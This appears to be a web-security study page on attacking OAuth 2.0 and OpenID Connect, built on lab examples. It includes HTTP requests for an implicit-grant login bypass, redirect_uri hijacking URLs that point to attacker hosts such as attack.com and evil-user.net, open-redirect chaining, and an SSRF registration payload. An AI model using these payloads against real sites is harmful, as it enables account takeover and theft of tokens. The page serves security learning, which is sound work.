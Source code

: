 # OAuth 2.0

<details>

<summary>Introduction</summary>

**What is OAuth?**

* OAuth is a commonly used authorization framework that enables web applications to request limited access to a user's account on another application.

**How does OAuth 2.0 work?**

* **Client application** - The website that wants to access the user's data.
* **Resource owner** - The user whose data the client application wants to access.
* **OAuth service provider** - The website or application that controls the user's data and access to it. They support OAuth by providing an API for interacting with both an authorization server and a resource server.

</details>

## <mark style="color:yellow;">Identifying OAuth authentication</mark>

* If you see an option to log in using your account from a different website, this is a strong indication that OAuth is being used.
* Regardless of which OAuth grant type is being used, the first request of the flow will always be a request to the `/authorization` endpoint containing a number of query parameters that are used specifically for OAuth. In particular, keep an eye out for the `client_id`, `redirect_uri`, and `response_type` parameters

### <mark style="color:yellow;">Recon</mark>

If using an external OAuth service, identify the provider by the hostname in the authorization request. Public API documentation typically provides detailed information, including endpoint names and configuration options. Try sending a request to the following standard endpoints:

* `/.well-known/oauth-authorization-server`
* `/.well-known/openid-configuration`

## <mark style="color:yellow;">Vulnerabilities</mark>

### <mark style="color:yellow;">Improper implementation of the implicit grant type</mark>

At the conclusion of the login process, the client application often sends the username and access token to the server via a `POST` request. The server then issues a session cookie, effectively completing the login and establishing the user session

```http
POST /authenticate HTTP/2
Host: 0a55005703e1680182bd7f6100b60068.web-security-academy.net
[..]

{"email":"lebron@cleveland.com","username":"lebron","token":"ckNqkfxB"}
```

```http
HTTP/2 302 Found
Location: /
Set-Cookie: session=OixJC365d0v7yaU1l1xEnCCtfnRZDhZe; Secure; HttpOnly; SameSite=None
```

Exploitation: repeat this request with an arbitrary account (changing email and username) and leaving the access token

### <mark style="color:yellow;">Account hijacking via redirect\_uri</mark>

Replace redirect\_uri with a attacker controlled domain

```
https://oauth-x.oauth-server.net/auth?client_id=xyz&redirect_uri=https://attack.com/oauth-callback&response_type=code&scope=openid profile email
```

{% hint style="info" %}
**Note**: using `state` or `nonce` protection does not necessarily prevent these attacks because an attacker can generate new values from their own browser.
{% endhint %}

**Flawed redirect\_uri validation**

```
https://default-host.com@foo.evil-user.net
https://oauth-xxx-server.com/?client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net
https://localhost.evil-user.net
```

**Chain vulns**&#x20;

If you are unable to successfully submit an external domain as the `redirect_uri` you can chain vulnerabilities like open redirect, xss etc.

1. Find open redirect

```
https://server.net/post/next?path=https://attacker.com
```

2. Use this url as `redirect_uri`&#x20;

```
https://oauth-xxx-server.com/?client_id=123&redirect_uri=https://server.net/post/next?path=https://attacker.com[...]
```

{% hint style="success" %}
Tip: the default URI will often be on an OAuth-specific path, such as `/oauth/callback`, so you can use directory traversal tricks `https://client-app.com/oauth/callback/../../example/path`
{% endhint %}

### <mark style="color:yellow;">Flawed CSRF protection</mark>

Although many components of the OAuth flows are optional, some of them are strongly recommended unless there's an important reason not to use them. One such example is the `state` parameter.

if you notice that the authorization request does not send a `state` parameter, It potentially means that you can initiate an OAuth flow yourself before tricking a user's browser into completing it, similar to a traditional CSRF attack.

Consider a website that allows users to log in using either a classic, password-based mechanism or by linking their account to a social media profile using OAuth. In this case, if the application fails to use the `state` parameter, an attacker could potentially hijack a victim user's account on the client application by binding it to their own social media account.

Note that if the site allows users to log in exclusively via OAuth, the `state` parameter is arguably less critical. However, not using a `state` parameter can still allow attackers to construct login CSRF attacks, whereby the user is tricked into logging in to the attacker's account.

## <mark style="color:yellow;">OpenID Connect</mark>

### <mark style="color:yellow;">Identifying OpenID Connect</mark> <a href="#identifying-openid-connect" id="identifying-openid-connect"></a>

Look for the mandatory `openid` scope

### <mark style="color:yellow;">Unprotected dynamic client registration</mark>

1. Identify configuration file `/.well-known/openid-configuration` to get registration\_endpoint
2. Register your own client app. In the logo\_uri add a external url for SSRF

```http
POST /reg HTTP/1.1
Host: oauth-YOUR-OAUTH-SERVER.oauth-server.net
Content-Type: application/json

{
    "application_type": "web",
    "client_name": "My Application",
    "redirect_uris": [
        "https://client-app.com/callback",
        "https://client-app.com/callback2"
        ],
    "logo_uri": "https://BURP-COLLABORATOR-SUBDOMAIN"
}
```

```http
HTTP/2 201 Created
[...]

{[...]"client_id":"aqFGUZgiQmXrUphoMV7i6","client_name":"My Application",[...]}
```

3. Make `GET /client/CLIENT-ID/logo` request and replace the `client_id`
